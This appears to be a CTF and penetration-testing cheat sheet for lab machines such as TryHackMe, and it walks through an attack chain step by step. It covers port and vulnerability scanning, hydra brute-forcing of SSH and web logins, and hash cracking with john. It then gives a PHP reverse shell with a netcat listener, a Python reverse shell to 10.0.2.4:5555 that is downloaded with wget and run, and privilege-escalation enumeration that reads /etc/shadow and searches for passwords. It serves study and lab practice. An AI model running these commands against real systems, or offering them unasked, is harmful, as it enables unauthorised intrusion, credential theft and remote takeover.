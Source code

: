 # SCANNING
> First of all, let's scan the open ports and their versions.

```
nmap -A -p- [Target IP Address] -oN [../nmapresult.txt]
```
> How many ports open?
```
nmap -vvv [Target IP Address]
```
> What vulnerabilities exist in this machine?
```
nmap -p- --script vuln [Target IP Address]
```
<br>
<br>

> If Apache2 or any web server is running;
> First, let's find the folders on the server.

```
dirb http://[Target IP Address]
```
> Or let's try alternative scanning methods.

```
gobuster dir -u http://[Target IP Address] -w [../dirbuster/wordlist.txt]
nikto -h [Target IP Address]
```
> After the scans are completed, the web server (if any) is visited and all information is collected:
<br>

# BRUTE FORCE
> Let's try to crack the usernames we found with a brute force attack.

```
hydra -l [Username We Found] -P [../wordlist.txt] [Whichever Port is Open]://[Target IP Address]
hydra -l [Username We Found] -P [../wordlist.txt] http-post-form "[HTTP Post Form]" -v
hydra -l [../Userlist.txt] -P [../wordlist.txt] [Target IP Address] [Whichever Port is Open]://[Target IP Address]
```
> For example:

```
hydra -l john -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10
hydra -l james -P /home/kali/Downloads/givenbyctf.txt http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid" -v
hydra -l /home/kali/Documents/CTF's/attactive-directory/userlist.txt -P /usr/share/wordlists/fasttrack.txt 10.10.10.10 ssh://10.10.10.10
```
<br>
<br>

> If WordPress:
```
wpscan --url [Target IP Address] --passwords [../wordlist.txt] --usernames [Admin Username]
```
> If we see something encrypted:
```
john [../hash.txt] --wordlist=[../wordlist.txt]
john --format=[Format of the Hash] [../hash.txt]
```
> If stegonography is revealed:
```
stegcracker [../file.jpg] [../wordlist.txt]
```
> If we haven't made much progress with the brute force attack, but we have an id_rsa:
<br>

# GAINING ACCESS
> For SSH key to work:
```
chmod 600 [Key]
```
> Connection with SSH key:
```
ssh [Username]@[Target IP Address] -i [Key]
```
> If it asks us for a password:
```
python ssh2john.py id_rsa > id_rsa.hash
john id_rsa.hash --wordlist=[../wordlist.txt]
```
> And, repeat the above.
> If there is still no gaining access, we can try a pHp reverse shell on the web server.
<br>

# PHP REVERSE SHELL
> First, open the php document. (If you search for this php file as php-reverse-shell, you will see many examples.)
```
nano ../php-reverse-shell.php
```
> And edit the file. If you see "change $ip= " in the file, enter your own machine's IP address there. If you are connected to sites such as tryhackme via VPN, enter the IP address you are connected to.
> Let's open another terminal on us own machine and start listening to the port written in the php-reverse-shell.php file:
```
nc -nvlp [Port]
```
> Run php-reverse-shell.php on the website. For example:
```
http://[Target Website]/uploads/php-reverse-shell.php
```
> If we have gained access to the port we are listening to via Netcat, but the Linux commands we are used to are not working, let's check whether this is Python.
```
print("cozuxhub")
```
> If we have seen any text we wrote in the print command as output, it is time to open a shell:
<br>

# PYTHON SHELL
> To open terminal:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
> If it doesn't work, do this first:
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
> Or, create a document.py in the /var/www/html on your machine and type this:
```
        import socket
        import subprocess
        import os

        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("10.0.2.4",5555))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p=subprocess.call(["/bin/sh","-i"])
```
> We first need to start the Apache2 server on we own machine.
```
service apache2 start
```
> Go to target machine and copy this file from we apache2 server.
```
wget http://[Your IP Address]/[document.py]
```
> Let's run this python file on our target machine.
```
python document.py
/usr/bin/python document.py
```
> If we are now a user on the target machine but do not have sufficient privileges, next is privilege escalation.
<br>

# LINUX PRIVILEGE ESCALATION
> First of all, get informaton from the machine.
```
whoami
id
uname -a
cat /proc/version
cat /etc/issue
cat /etc/shadow
cat /etc/passwd
cat /etc/sudoers
cat /etc/crontab
ps aux
ifconfig
locate password
find / -name password 2>/dev/null
find . type f -exec grep -i -I "PASSWORD" {} /dev/null \;
find / -type f -perm -04000 -ls 2>/dev/null
```
<br>
<br>

> Shows the commands of the user before you:
```
history
```
> Shows what the current user can do:
```
find / -perm -u=s -type f 2>/dev/null
```
> Shows the commands:
```
ls -la /usr/bin
```
> Let's see which commands can run without root:
```
sudo -l
find / -type f -perm -04000 -ls 2>/dev/null
```
<br>
<br>

> From here, we are likely to encounter thousands of possibilities. Since each machine has a different vulnerability, we must do our own research after the basic operations.

